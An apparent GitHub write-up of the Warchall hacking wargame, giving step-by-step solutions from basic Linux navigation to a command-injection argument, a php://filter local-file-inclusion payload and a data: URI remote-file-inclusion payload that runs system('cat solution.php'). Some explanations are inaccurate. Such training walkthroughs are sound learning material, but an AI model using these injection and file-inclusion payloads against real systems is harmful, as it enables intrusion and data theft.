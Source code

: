 # Warchall

## Warchall - The Beginning

Congratulations! You are now on your way to becoming a Linux superhacker.

Create an SSH account using the form below. Then enter the six solutions for levels 0-5, separated by commas.

Example: "bitwarrior, Solution1, Solution2, Solution3, Solution4, Solution5"

Connect to the our count ssh,using this commande
ssh -p 19198 pseudo@warchall.net
```bash
  ssh -p 19198 freddy@warchall.net
```

### Level 0
1- Use the ls command to display the contents of the current folder:
ls 
```bash
  ls
```

2- Show the contents of the WELCOME.md file using cat WELCOME.md:
```bash
  cat WELCOME.md
```

3- Navigate to the directory containing the challenge mentioned in the WELCOME.md file:
```
  /home/level/ or /home/user/freddy/level
```

4- Open the 00_WELCOME directory using the cd command and read the README.md file to find the solution:
```bash
  cd 00_WELCOME
  cat README.md
```
### Level 1
1- Open the 01_choice_tree directory using cd:
```bash
  cd O1_choice_tree
```
2- Search for the file containing the solution using the du command:
```bash
  du
```
3- Open the directory using cd and read the file containing the solution using cat:
```bash
  cd ./blue/hats/grey/solution
  cat SOLUTION.txt
```

### Level 2
1- Open the 02 directory using cd:
```bash
  cd O2
```
2- Search for all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Open the solution directory using cd and read the solution file using cat:
```bash
  cd ./porb
  cat ./.solution
```

### Level 3
1- Open the 03 directory using cd:
```bash
  cd O3
```
2- Show all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Read the file ./.bash_history using the cat command:
```bash
  cat ./.bash_history
```

### Level 4
1- Open the 04_kwisatz directory using cd:
```bash
  cd 04_kwisatz
```
2- Show the contents of this directory using ls and read the README.nfo file using cat:
```bash
  cat README.nfo
```
3- Go to the home directory using cd:
```bash
  cd 
```
4- Show all contents of this directory using du:
```bash
  du -b -a
```
5- Read the file containing the solution using cat:
```bash
  cat ./level/04_kwisatz/README2.md
```
### Level 5
1- Open the 05_privacy directory using cd:
```bash
  cd 05_privacy
```
2- Show the contents of this directory using ls:
```bash
  ls
```
3- Read the README.md file using cat:
```bash
  cat README.md 
```
## Choose your PATH 1
This is the level10 mini challenge found in /home/level/10/ on the warchall box.
You can view the source here.
### level 10
1- Use the cd command to navigate into the challenge repository.
```bash
  cd path/to/challenge/repository
```
2- Execute the following command to redirect the solution to the personnal directory:
```bash
   ./charp "so & cat solution.txt > ~/s.txt"
```
- ./charp: Runs the program or script named "charp."
- "so": Provides a string as an argument to "charp."
- &: Indicates that "so" will run in the background.
- cat solution.txt > ~/s.txt: Displays the content of "solution.txt" and redirects it to a new file "s.txt" in the user's home directory.

3- Open the "s.txt" file in the home directory.
```bash
  cat ~/s.txt
```

## Py-tong
A fellow hacker is challenging you to exploit a simple python script.
To exploit it live, you have to create your Warchall account and try your luck there.
To see what it is about you can also view the source here.

Note: It is not required to trigger a race condition, but it should work as well.
Note: You have to use the binary "pytong" not the pytong.py. It is a wrapper which is needed for SETREGID and finally gives the solution.
### Level 12
To solve this challenge, the following command is used: ./pytong <(echo text)

./pytong: This is the execution of the pytong binary, which is the Python script to exploit
<: This is the redirection operator; it takes the output of the following command and uses it as input for ./pytong.
(echo text): This generates the string "text" and passes it as input to ./pytong
```bash
./pytong <(echo text)
```
## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

1- Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

3- Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live RFI challenge hosted on it.
### Level 15
Your objective is to retrieve the content of the `solution.php` file using RFI. Follow the steps below to complete the challenge.
1- Visit the following link in the web browser:
```
https://rfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E%E3%80%82
```
The lang parameter of the URL is set to data:text/plain, the string <?php system("cat solution.php")?>. This parameter tells the PHP server to return the content of the PHP file solution.php as plain text.
The string <?php system("cat solution.php")?> is a PHP instruction that calls the function system(). The function system() executes a program or script as a child process. In this case, the program or script executed is the program cat. The program cat reads the contents of a file and displays them on the standard output.
3- After visiting the link above, please inspect the site :
```
  right click and choose the inspect option
```

